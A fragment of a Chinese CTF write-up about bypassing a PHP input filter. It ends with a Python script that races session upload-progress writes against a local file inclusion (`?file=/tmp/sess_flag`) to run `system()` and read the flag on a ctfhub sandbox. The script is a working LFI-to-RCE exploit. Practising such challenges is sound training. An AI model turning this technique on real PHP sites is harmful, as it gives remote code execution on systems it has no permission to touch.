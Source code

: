 ```php
    for($i = 0; $i < strlen($alphanum); $i++){
        for($j = 0; $j < strlen($var); $j++){
            if($var[$j] == $alphanum[$i]){
                $cnt += 1;
                if($cnt > 8) return True;
            }
        }
    }
    return False;
}
?> 
   
```

首先我们发现既可以用eval命令执行，也可以用include文件包含。

但是eval过滤得太多，我们看到include要稍微简单点

filter函数把很多都过滤了

我们尝试使用phpsession文件包含。

师傅们的脚本

```python
import io
import requests
import threading
url = 'http://challenge-cfd946d2e06b103c.sandbox.ctfhub.com:10800'

def write(session):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat /flag_is_here_not_are_but_you_find");?>dotasts'
    }
    while True:
        f = io.BytesIO(b'a' * 1024 * 10)
        response = session.post(url,cookies={'PHPSESSID': 'flag'}, data=data, files={'file': ('dota.txt', f)})
def read(session):
    while True:
        response = session.get(url+'?file=/tmp/sess_flag')
        if 'dotasts' in response.text:
            print(response.text)
            break
        else:
            print('retry')

if __name__ == '__main__':
    session = requests.session()
    write = threading.Thread(target=write, args=(session,))
    write.daemon = True
    write.start()
    read(session)
```
